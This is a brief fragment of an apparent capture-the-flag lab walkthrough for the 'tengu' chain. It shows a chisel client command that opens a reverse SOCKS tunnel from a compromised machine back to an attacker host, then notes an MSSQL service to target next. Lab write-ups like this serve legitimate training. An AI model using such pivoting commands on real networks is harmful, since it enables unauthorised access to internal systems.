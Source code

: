 ![](<tengu(chain)(medium)/walkthrough_20240414142850002.png>)

```
./chisel client 10.8.1.167:8000 R:socks &
```

![](<tengu(chain)(medium)/walkthrough_20240414142335129.png>)

the 10.10.237.118 open 1433 (mssql), so the host maybe is `sql.tengu.vl` in node-red
